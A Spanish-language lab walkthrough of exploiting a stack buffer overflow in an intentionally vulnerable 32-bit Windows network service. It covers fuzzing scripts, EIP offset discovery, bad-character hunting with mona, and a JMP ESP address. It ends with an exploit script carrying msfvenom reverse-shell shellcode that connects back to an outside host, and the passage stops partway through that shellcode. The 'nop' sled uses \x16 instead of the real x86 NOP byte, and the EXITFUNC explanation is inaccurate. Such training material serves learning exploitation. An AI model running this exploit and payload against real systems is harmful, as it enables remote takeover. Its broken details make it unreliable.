Explotación de Buffer Overflow en un binario de 32 de Windows
Iniciaremos descargando un binario .exe vulnerable en mi caso use dostackbufferoverflowgood.exe
PS C:\Users\pc1\Desktop> dir
Directorio: C:\Users\pc1\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 14/01/2023 04:12 p. m. 13312 example.exe
PS C:\Users\pc1\Desktop>
Al ejecutarlo nos dice que está en espera de alguna conexión, pero... ¿en que puerto?
PS C:\Users\pc1\Desktop> .\example.exe
[+] Listening for connections.
En otra consola con netstat podemos ver que example.exe se esta corriendo en el puerto 31337
PS C:\Users\pc1\Desktop> netstat -ab | Select-String "example" -Context 1,0
TCP 0.0.0.0:31337 GatoGamer1155:0 LISTENING
> [example.exe]
Podemos conectarnos con netcat y por cada input que enviamos nos devuelve un 'hello' con el
❯ netcat 192.168.204.1 31337
test
Hello test!!!
En donde está corriendo el archivo .exe nos muestra los bytes que recibe y los bytes que devuelve
PS C:\Users\pc1\Desktop> .\example.exe
[+] Listening for connections.
Received connection from remote host.
Connection handed off to handler thread.
Bytes received: 5
Bytes sent: 14
Iniciamos por crear un script con pwntools para saber con cuantos bytes se corrompe el programa
#!/usr/bin/python3
from pwn import log, socket, time
Creamos un array con el nombre buffer que de momento no vale nada, y un contador que vale 100
#!/usr/bin/python3
from pwn import log, socket, time
buffer = [b""]
counter = 100
Haremos un append de A por el contador a buffer 32 veces, cada vez el contador aumentara 100
#!/usr/bin/python3
from pwn import log, socket, time
buffer = [b""]
counter = 100
while len(buffer) < 32:
buffer.append(b"A" * counter)
counter += 100
Crearemos una conexión con la máquina victima y por cada valor del array enviaremos la data y un salto de linea, mientrás la conexión concluya sin romperse la barra nos mostrará cuantos bytes se estan enviando, si se corrompe y pierde la conexión nos mostrará cuantos bytes se enviaron
#!/usr/bin/python3
from pwn import log, socket, time
buffer = [b""]
counter = 100
bar = log.progress("")
while len(buffer) < 32:
buffer.append(b"A" * counter)
counter += 100
for strings in buffer:
try:
time.sleep(1)
bar.status(f"Enviando: {len(strings)} bytes")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
shell.connect(("192.168.204.1", 31337))
shell.recv(1024)
shell.send(strings + b"\r\n")
shell.recv(1024)
shell.close()
except:
bar.success(f"El programa se detuvo al enviar: {len(strings)} bytes")
exit()
Corremos el script pero curiosamente el programa se ha corrompido al enviar solo 200 bytes
❯ python3 exploit.py
[↖] Enviando: 200 bytes
[+] El programa se detuvo al enviar: 200 bytes
Necesitamos saber la cantidad de bytes antes de llegar el EIP, asi que creamos un patrón con la herramienta pattern_create de metasploit
❯ msf-pattern_create -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Ahora modificaremos el script para que envie el patrón creado y el salto de linea
#!/usr/bin/python3
from pwn import log, socket
pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
log.info("Enviando pattern ...")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
shell.connect(("192.168.204.1", 31337))
shell.send(pattern + b"\r\n")
shell.close()
Ahora lo que necesitamos es controlar el EIP, para esto usaremos Immunity Debugger

En File > Open tenemos la opción de ingrsar un .exe, ingresamos el nuestro

Una vez abierto le damos al botón de play y el programa estará corriendo

Ahora ejecutamos nuestro exploit para que envie el patrón y sobreescriba registros
❯ python3 exploit.py
[*] Enviando pattern ...
En el apartado de registros lo que nos interesa es EIP y podemos ver que ahora vale 39654138

Con la herramienta pattern_offset podemos ver el offset que son 146 bytes antes de llegar al EIP
❯ msf-pattern_offset -q 39654138
[*] Exact match at offset 146
Podemos comprobarlo haciendo un script que envie 146 A y 4 B, EIP tendria que valer 42424242
#!/usr/bin/python3
from pwn import log, socket
offset = 146
junk = b"A" * offset
eip = b"B" * 4
log.info("Enviando payload ...")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
shell.connect(("192.168.204.1", 31337))
shell.send(junk + eip + b"\r\n")
shell.close()
Podemos darle a atrás para que nos reinicie el servicio y volvemos a correrlo

Corremos el script para enviar el payload y EIP vale 42424242, tenemos el control sobre el EIP
❯ python3 exploit.py
[*] Enviando payload ...

!mona config -set workfolder C:\Users\pc1\Desktop\%p

!mona bytearray


#!/usr/bin/python3
from pwn import log, socket
offset = 146
junk = b"A" * offset
eip = b"B" * 4
badchars = b""
badchars += b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
badchars += b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
badchars += b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
badchars += b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
badchars += b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
badchars += b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
badchars += b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
badchars += b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
log.info("Enviando posibles badchars ...")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
shell.connect(("192.168.204.1", 31337))
shell.send(junk + eip + badchars + b"\r\n")
shell.close()
❯ python3 exploit.py
[*] Enviando posibles badchars ...

!mona compare -f bytearray.bin -a 00A619E8

¡Importante para ahorrar tiempo y esfuerzo!
Generalmente en todos los binarios de Windows el caracter \x00 será badchar asi que puedes empezar creando el bytearray sin el y considerarlo un badchar desde un inicio
!mona bytearray -cpb "\x00"

#!/usr/bin/python3
from pwn import log, socket
offset = 146
junk = b"A" * offset
eip = b"B" * 4
badchars = b""
badchars += b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
badchars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
badchars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
badchars += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
badchars += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
badchars += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
badchars += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
badchars += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
log.info("Enviando posibles badchars ...")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
shell.connect(("192.168.204.1", 31337))
shell.send(junk + eip + badchars + b"\r\n")
shell.close()

!mona compare -f bytearray.bin -a 00A919E8

!mona bytearray -cpb "\x00\x0a"

#!/usr/bin/python3
from pwn import log, socket
offset = 146
junk = b"A" * offset
eip = b"B" * 4
badchars = b""
badchars += b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21"
badchars += b"\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41"
badchars += b"\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61"
badchars += b"\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
badchars += b"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1"
badchars += b"\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1"
badchars += b"\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1"
badchars += b"\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
log.info("Enviando posibles badchars ...")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
shell.connect(("192.168.204.1", 31337))
shell.send(junk + eip + badchars + b"\r\n")
shell.close()
❯ python3 exploit.py
[*] Enviando posibles badchars ...

!mona compare -f bytearray.bin -a 00BF19E8

Repetir repetir y volver a repetir ... ¡Unmodified!
Este proceso puede llegar a ser un poco tedioso ya que hay binarios que tienen muchos badchars, pero como se puede ver el proceso no es muy complicado y es exactamente el mismo solo es repetirlo hasta que recibamos el mensaje de unmodified

❯ msf-nasm_shell
nasm > jmp ESP
00000000 FFE4 jmp esp

0x080414c3 --> \x08\x04\x14\xc3 --> \xc3\x14\x04\x08
❯ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.193.128 LPORT=443 EXITFUNC=thread -a x86 -b "\x00\x0a" -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Payload size: 351 bytes
Final size of python file: 1965 bytes
shellcode = b""
shellcode += b"\xd9\xc6\xd9\x74\x24\xf4\x5d\xba\x8a\xe7\x9d"
shellcode += b"\xc1\x2b\xc9\xb1\x52\x83\xc5\x04\x31\x55\x13"
shellcode += b"\x03\xdf\xf4\x7f\x34\x23\x12\xfd\xb7\xdb\xe3"
shellcode += b"\x62\x31\x3e\xd2\xa2\x25\x4b\x45\x13\x2d\x19"
shellcode += b"\x6a\xd8\x63\x89\xf9\xac\xab\xbe\x4a\x1a\x8a"
shellcode += b"\xf1\x4b\x37\xee\x90\xcf\x4a\x23\x72\xf1\x84"
shellcode += b"\x36\x73\x36\xf8\xbb\x21\xef\x76\x69\xd5\x84"
shellcode += b"\xc3\xb2\x5e\xd6\xc2\xb2\x83\xaf\xe5\x93\x12"
shellcode += b"\xbb\xbf\x33\x95\x68\xb4\x7d\x8d\x6d\xf1\x34"
shellcode += b"\x26\x45\x8d\xc6\xee\x97\x6e\x64\xcf\x17\x9d"
shellcode += b"\x74\x08\x9f\x7e\x03\x60\xe3\x03\x14\xb7\x99"
shellcode += b"\xdf\x91\x23\x39\xab\x02\x8f\xbb\x78\xd4\x44"
shellcode += b"\xb7\x35\x92\x02\xd4\xc8\x77\x39\xe0\x41\x76"
shellcode += b"\xed\x60\x11\x5d\x29\x28\xc1\xfc\x68\x94\xa4"
shellcode += b"\x01\x6a\x77\x18\xa4\xe1\x9a\x4d\xd5\xa8\xf2"
shellcode += b"\xa2\xd4\x52\x03\xad\x6f\x21\x31\x72\xc4\xad"
shellcode += b"\x79\xfb\xc2\x2a\x7d\xd6\xb3\xa4\x80\xd9\xc3"
shellcode += b"\xed\x46\x8d\x93\x85\x6f\xae\x7f\x55\x8f\x7b"
shellcode += b"\x2f\x05\x3f\xd4\x90\xf5\xff\x84\x78\x1f\xf0"
shellcode += b"\xfb\x99\x20\xda\x93\x30\xdb\x8d\x5b\x6c\x22"
shellcode += b"\xcd\x34\x6f\xa4\xcf\x7f\xe6\x42\xa5\x6f\xaf"
shellcode += b"\xdd\x52\x09\xea\x95\xc3\xd6\x20\xd0\xc4\x5d"
shellcode += b"\xc7\x25\x8a\x95\xa2\x35\x7b\x56\xf9\x67\x2a"
shellcode += b"\x69\xd7\x0f\xb0\xf8\xbc\xcf\xbf\xe0\x6a\x98"
shellcode += b"\xe8\xd7\x62\x4c\x05\x41\xdd\x72\xd4\x17\x26"
shellcode += b"\x36\x03\xe4\xa9\xb7\xc6\x50\x8e\xa7\x1e\x58"
shellcode += b"\x8a\x93\xce\x0f\x44\x4d\xa9\xf9\x26\x27\x63"
shellcode += b"\x55\xe1\xaf\xf2\x95\x32\xa9\xfa\xf3\xc4\x55"
shellcode += b"\x4a\xaa\x90\x6a\x63\x3a\x15\x13\x99\xda\xda"
shellcode += b"\xce\x19\xfa\x38\xda\x57\x93\xe4\x8f\xd5\xfe"
shellcode += b"\x16\x7a\x19\x07\x95\x8e\xe2\xfc\x85\xfb\xe7"
shellcode += b"\xb9\x01\x10\x9a\xd2\xe7\x16\x09\xd2\x2d"
¿Para que sirve el parámetro EXITFUNC=thread?
Gracias a esta funcion a la hora de pasarle el shellcode lo correra en un proceso hijo, de modo que podemos matar la conexión volverla a abrir y el programa seguirá funcionando
#!/usr/bin/python3
from pwn import log, socket
offset = 146
junk = b"A" * offset
jmpesp = b"\xc3\x14\x04\x08"
nops = b"\x16" * 16
shellcode = b""
shellcode += b"\xd9\xc6\xd9\x74\x24\xf4\x5d\xba\x8a\xe7\x9d"
shellcode += b"\xc1\x2b\xc9\xb1\x52\x83\xc5\x04\x31\x55\x13"
shellcode += b"\x03\xdf\xf4\x7f\x34\x23\x12\xfd\xb7\xdb\xe3"
shellcode += b"\x62\x31\x3e\xd2\xa2\x25\x4b\x45\x13\x2d\x19"
shellcode += b"\x6a\xd8\x63\x89\xf9\xac\xab\xbe\x4a\x1a\x8a"
shellcode += b"\xf1\x4b\x37\xee\x90\xcf\x4a\x23\x72\xf1\x84"
shellcode += b"\x36\x73\x36\xf8\xbb\x21\xef\x76\x69\xd5\x84"
shellcode += b"\xc3\xb2\x5e\xd6\xc2\xb2\x83\xaf\xe5\x93\x12"
shellcode += b"\xbb\xbf\x33\x95\x68\xb4\x7d\x8d\x6d\xf1\x34"
shellcode += b"\x26\x45\x8d\xc6\xee\x97\x6e\x64\xcf\x17\x9d"
shellcode += b"\x74\x08\x9f\x7e\x03\x60\xe3\x03\x14\xb7\x99"
shellcode += b"\xdf\x91\x23\x39\xab\x02\x8f\xbb\x78\xd4\x44"
shellcode += b"\xb7\x35\x92\x02\xd4\xc8\x77\x39\xe0\x41\x76"
shellcode += b"\xed\x60\x11\x5d\x29\x28\xc1\xfc\x68\x94\xa4"
shellcode += b"\x01\x6a\x77\x18\xa4\xe1\x9a\x4d\xd5\xa8\xf2"
shellcode += b"\xa2\xd4\x52\x03\xad\x6f\x21\x31\x72\xc4\xad"
shellcode += b"\x79\xfb\xc2\x2a\x7d\xd6\xb3\xa4\x80\xd9\xc3"
shellcode += b"\xed\x46\x8d\x93\x85\x6f\xae\x7f\x55\x8f\x7b"
shellcode += b"\x2f\x05\x3f\xd4\x90\xf5\xff\x84\x78\x1f\xf0"
shellcode += b"\xfb\x99\x20\xda\x93\x30\xdb\x8d\x5b\x6c\x22"
